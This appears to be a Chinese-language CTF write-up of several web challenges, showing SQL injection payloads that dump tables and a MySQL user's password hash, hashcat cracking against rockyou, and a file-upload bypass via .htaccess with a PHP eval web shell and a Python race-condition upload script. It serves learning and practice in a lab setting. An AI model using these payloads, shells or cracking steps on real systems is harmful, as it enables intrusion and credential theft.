

由于题目是http2，这里竟然出现了400错误，但是无伤大雅，用hackbar在网页进行传参就解决了这个问题，而且题目的表和测试环境表不同，所以再换一下payload

```
select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='Flag_843423739'

select/**/group_concat(value)from/**/Flag_843423739
```

## Limited 1

第二题，需要知道被注释的flag，



也就是这里的flag了，对此几乎无从下手，题目进行了数据库连接的，将问题好好的整理描述给GPT，发现有一个属性可以直接查到连接时候的查询语句，这个属性就是information\_schema.processlist，有版本限制，mysql>=5.7.6





```
SELECT/**/query/**/FROM/**/information_schema.processlist/**/WHERE/**/id=connection_id()

SELECT/**/group_concat(info)/**/FROM/**/information_schema.processlist
```

## Limited 3

题目描述

```
Limited 3
404
Author: SamXML
Note: This uses the same source as Limited 1.

There is a db user named: flag

The password for this user is 13 characters and can be found in rockyou.

Please wrap this password with wctf{} before submitting.

For example, if the password was hocuspocus123 then the flag would be wctf{hocuspocus123}

https://limited-app-974780027560.us-east5.run.app/
1/100 attempts
```

看到题目描述其实我挺茫然，说的就是有一个用户是flag，并且他的password有秘钥，秘钥在rockyou中，起初我一直认为这个rockyou是一个表或者是数据库，然后我去查password列之类的，后面一上Chrome搜索，原来这是一个密钥库，那我们首当其冲就是要拿到相应的信息，就可以利用hashcat进行爆破了

```
SELECT/**/group_concat(user)/**/FROM/**/mysql.user
ctf,flag,root,mysql.infoschema,mysql.session,mysql.sys,root

SELECT/**/group_concat(column_name)/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='user'
account_locked,Alter_priv,Alter_routine_priv,authentication_string,Create_priv,Create_role_priv,Create_routine_priv,Create_tablespace_priv,Create_tmp_table_priv,Create_user_priv,Create_view_priv,Delete_priv,Drop_priv,Drop_role_priv,Event_priv,Execute_priv,File_priv,Grant_priv,Host,Index_priv,Insert_priv,Lock_tables_priv,max_connections,max_questions,max_updates,max_user_connections,password_expired,password_last_changed,password_lifetime,Password_require_current,Password_reuse_history,Password_reuse_time,plugin,Process_priv,References_priv,Reload_priv,Repl_client_priv,Repl_slave_priv,Select_priv,Show_db_priv,Show_view_priv,Shutdown_priv,ssl_cipher,ssl_type,Super_priv,Trigger_priv,Update_priv,User,User_attributes,x509_issuer,x509_subject

SELECT/**/group_concat(authentication_string)/**/FROM/**/mysql.user/**/WHERE/**/user='flag'
$A$005$\u001d\u0013r>f+v\u001e VZ\u001f\tVwC6N,k213w7bWDoFKwCtkuMdE5KzXBPhiqWCcZaIVO/UqYWk3
```

查出密码，准备爆破密钥，但是hashcat一直报错说不识别，后面查到消息，并且知道mysql版本[Hashcat的Issue](https://github.com/hashcat/hashcat/issues/3049)，那重新写一下注入语句

```
select/**/CONCAT('$mysql',substring(authentication_string,1,3),LPAD(conv(substring(authentication_string,4,3),16,10),4,0),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*'))/**/AS/**/hash/**/FROM/**/mysql.user/**/WHERE/**/user='flag'/**/AND/**/authentication_string/**/NOT/**/LIKE/**/'%INVALIDSALTANDPASSWORD%'

$mysql$A$0005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044
```

进行一个字符串拼接得到

```
flag:$mysql$A$0005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044
```

保存为hash.txt，进行爆破

```
hashcat -m 7401 -a 0 --username hash.txt rocket.txt
```

得到秘钥包起来就是flag

```
wctf{maricrissarah}
```

## Art Contest

最后一道WEB题，但是却做了很久很久，首先看到get\_flag.c



很明显我们要getshell来执行这个文件得到flag，flag.txt应该是有root权限不能够进行查看的，看向Dockerfile



每个小时会清理一下上传的文件，WEB应用核心代码如下

```
<?php
session_start();

$session_id = session_id();
$target_dir = "/var/www/html/uploads/$session_id/";

// Creating the session-specific upload directory if it doesn't exist
if (!is_dir($target_dir)) {
    mkdir($target_dir, 0755, true);
    chown($target_dir, 'www-data');
    chgrp($target_dir, 'www-data');
}
?>
.......
<?php

if (isset($_FILES['fileToUpload'])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $session_id = session_id();
    $target_dir = "/var/www/html/uploads/$session_id/";
    $target_file_path = $target_dir . $target_file;
    $uploadOk = 1;
    $lastDotPosition = strrpos($target_file, '.');

    // Check if file already exists
    if (file_exists($target_file_path)) {
        echo "Sorry, file already exists.
";
        $uploadOk = 0;
    }
    
    // Check file size
    if ($_FILES["fileToUpload"]["size"] > 50000) {
        echo "Sorry, your file is too large.
";
        $uploadOk = 0;
    }

    // If the file contains no dot, evaluate just the filename
    if ($lastDotPosition == false) {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = '';
    } else {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = substr($target_file, $lastDotPosition + 1);
    }

    // Ensure that the extension is a txt file
    if ($extension !== '' && $extension !== 'txt') {
        echo "Sorry, only .txt extensions are allowed.
";
        $uploadOk = 0;
    }
    
    if (!(preg_match('/^[a-f0-9]{32}$/', $session_id))) {
    	echo "Sorry, that is not a valid session ID.
";
        $uploadOk = 0;
    }

    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.
";
    } else {
        // If everything is ok, try to upload the file
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file_path)) {
            echo "The file " . htmlspecialchars(basename($_FILES["fileToUpload"]["name"])) . " has been uploaded.";
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }

    $old_path = getcwd();
    chdir($target_dir);
    // make unreadable - the proper way
    shell_exec('chmod -- 000 *');
    chdir($old_path);
}
?>
```



首先是一个权限验证，上传之后的目录我们也知道在uploads/sesson\_id/，并且对session\_id做了一个验证





并且有move所以不太可能进行目录穿越的上传，最后还进行了权限的限制



我们将无法访问上传的文件，Apache版本为2.4.62，非常的新，没有版本漏洞，上传文件发现可以上传.htaccess，所以就算只能上传txt文件也没有问题

```
POST / HTTP/2
Host: art-contest-974780027560.us-east5.run.app
Cookie: PHPSESSID=d7e39c8579f2ed415c9ad75b7d2ca0b1; GAESA=CpwBMDBmZDdkNzMzNzU2YzUyMWQwZWNmYzY4MGVkYmU3NGNjNjYxMTQwMDMxZWU1YmNkMDIzNzJkOGExYzEzMzQ4MGY4MzlmYWY4YWQ3MzczMTJhYTIyMjkxNTRhMWNiYjhjZDI2NmM3YmEzNGJlOTY4ZGIwOGY3OWEzMWZiNDUxNzc3ZTg5NzlkNzEyNzMzMDk2NDY5YWFjODI4MzkyEM38zorcMg
Content-Length: 413
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://art-contest-974780027560.us-east5.run.app
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg3bi0UR3XlDAEZV6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://art-contest-974780027560.us-east5.run.app/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"
Content-Type: text/plain

#define width 1337
#define height 1337
php_value auto_prepend_file "./shell.php.txt"
AddType application/x-httpd-php .txt
------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="submit"

Submit Art
------WebKitFormBoundaryg3bi0UR3XlDAEZV6--

```

那我们将核心漏洞代码注释

```
//shell_exec('chmod -- 000 *');
```

此时再进行测试，发现成功getshell



现在就是要对chmod这个命令进行绕过了，经过测试，发现



也就是说\*不会匹配.开头的文件，那很好办了，上传文件即可getshell

```
POST / HTTP/2
Host: art-contest-974780027560.us-east5.run.app
Cookie: PHPSESSID=d7e39c8579f2ed415c9ad75b7d2ca0b1; GAESA=CpwBMDBmZDdkNzMzNzU2YzUyMWQwZWNmYzY4MGVkYmU3NGNjNjYxMTQwMDMxZWU1YmNkMDIzNzJkOGExYzEzMzQ4MGY4MzlmYWY4YWQ3MzczMTJhYTIyMjkxNTRhMWNiYjhjZDI2NmM3YmEzNGJlOTY4ZGIwOGY3OWEzMWZiNDUxNzc3ZTg5NzlkNzEyNzMzMDk2NDY5YWFjODI4MzkyEM38zorcMg
Content-Length: 413
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://art-contest-974780027560.us-east5.run.app
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg3bi0UR3XlDAEZV6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://art-contest-974780027560.us-east5.run.app/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"
Content-Type: text/plain

#define width 1337
#define height 1337
php_value auto_prepend_file ".shell.txt"
AddType application/x-httpd-php .txt
------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="submit"

Submit Art
------WebKitFormBoundaryg3bi0UR3XlDAEZV6--

```

```
POST / HTTP/2
Host: art-contest-974780027560.us-east5.run.app
Cookie: PHPSESSID=d7e39c8579f2ed415c9ad75b7d2ca0b1; GAESA=CpwBMDBmZDdkNzMzNzU2YzUyMWQwZWNmYzY4MGVkYmU3NGNjNjYxMTQwMDMxZWU1YmNkMDIzNzJkOGExYzEzMzQ4MGY4MzlmYWY4YWQ3MzczMTJhYTIyMjkxNTRhMWNiYjhjZDI2NmM3YmEzNGJlOTY4ZGIwOGY3OWEzMWZiNDUxNzc3ZTg5NzlkNzEyNzMzMDk2NDY5YWFjODI4MzkyEM38zorcMg
Content-Length: 319
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://art-contest-974780027560.us-east5.run.app
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg3bi0UR3XlDAEZV6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://art-contest-974780027560.us-east5.run.app/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="fileToUpload"; filename=".shell.txt"
Content-Type: text/plain

<?php eval($_POST[1]);?>
------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="submit"

Submit Art
------WebKitFormBoundaryg3bi0UR3XlDAEZV6--

```



在antsword里面的虚拟终端可以拿到flag，但是敏感的师傅可以发现，他这个权限降低是在每次上传文件之后进行的，当然可以进行条件竞争，只不过注意一个问题，我最开始就提到，session\_id有要求，并且测试发现文件并不能覆盖，所以写出脚本

```
import hashlib
import random
import threading

import requests

url = "http://156.238.233.93:40000/"
sess = requests.session()
htacc = '''<FilesMatch "\.txt$">
    SetHandler application/x-httpd-php
</FilesMatch>'''
shell = '''
<?php system('ls -l ../../'); ?>
'''

sessionId = hashlib.md5(str(random.randint(100000, 999999)).encode('utf-8')).hexdigest()
filename = "a"
def upload_htaccess():
    global sessionId
    sess.post(url, files={"fileToUpload": (".htaccess", htacc)}, cookies={"PHPSESSID": sessionId})

def upload_shell():
    global sessionId
    global filename
    while True:
        sess.post(url, files={"fileToUpload": (f"{filename}.txt", shell)}, cookies={"PHPSESSID": sessionId})

def get_shell():
    global sessionId
    global filename
    while True:
        filename = hashlib.md5(str(random.randint(100000, 999999)).encode('utf-8')).hexdigest()
        res = sess.get(url + f"uploads/{sessionId}/{filename}.txt" , cookies={"PHPSESSID": sessionId})
        if res.status_code < 400:
            print(res.text)

upload_htaccess()
threading.Thread(target=upload_shell).start()
get_shell()
```



拿flag也有一个小坑点，我之前不知道以为

```
<?php system("/var/www/html/get_flag"); ?>
```

可以执行网站根目录的文件，但是发现不行，必须进行cd才能做到

```
<?php system('cd ../../;./get_flag'); ?>
```
